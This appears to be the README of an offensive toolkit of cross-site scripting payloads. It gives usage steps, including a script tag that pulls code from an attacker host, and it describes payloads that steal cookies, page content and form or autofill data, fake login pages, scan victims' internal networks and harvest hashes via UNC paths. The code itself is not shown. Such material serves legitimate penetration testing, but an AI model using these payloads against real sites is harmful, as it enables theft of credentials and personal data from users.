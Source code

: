 # xss_payloads

Payloads for practical exploitation of cross site scripting.

## Usage

1. Find XSS vuln in your app
2. Get PoC exploit: alert(1) etc
3. Host these payloads somewhere
4. Use vuln to pull one of these payloads into the app `<script src="http://attackerip/file.js"></script>`
5. Profit

## js vs php files

Some of the files are plain JavaScript .js files, others are PHP scripts which serve JavaScript when rendered in order to do some more complex stuff. Make sure you have a PHP interpreter running on your web server of choice to get these to work `</obvious>`

## Common Problems

* You can't serve these over HTTP if your app is running on HTTPS. You'll need to serve them over HTTPS
* If you're running these over HTTPS for actual exploitation rather than a PoC, you'll need a proper trusted TLS cert (Let's Encrypt CA, for example) otherwise victim's browsers won't fetch the files at all. If it's for a PoC you can just temporarily trust your self signed cert.
* Hit F12 and view the debug console for any information about why a particular script might not work

## Payloads

### apache_httponly_bypass.js

Uses an excessively large cookie to exploit CVE-2012-0053 and extract HTTPOnly cookie values from the response.

### contentstealer.php

Steal the content of the current page, a specific element or another page within the same origin as the exploited web app.

### cookiestealer.php

Steal cookies from the site.

### formjacker.php 

Man-in-the-middle all forms on the current page and also exploit browser autofill functionality in order to steal personal information.

### formsubmitter.php

Grab a page from somewhere within the same origin, fill in a form on it and then submit that form.

### local_network_scan.php

Get the internal IP address of a victim and then have them do a TCP port scan of common ports on the /24 of that internal IP address.

### loginpage.php

Pop up a login page which sends the entered credentials back to this URL.

### recon.php ###

Passes back information about where it was executed:

 - page URL
 - script URL
 - user's IP address
 - Page content
 - Any non HttpOnly cookies present
 - User agent string

And then logs it all into either a file or a database. Great for when a collaborator alert is generated asynchronously and you need more info about where execution is occuring.

### unc_hashstealer.php

Fire up Responder.py on the same host as this script and then inject this payload. All links on the injected page will be turned into UNC paths to the same host.

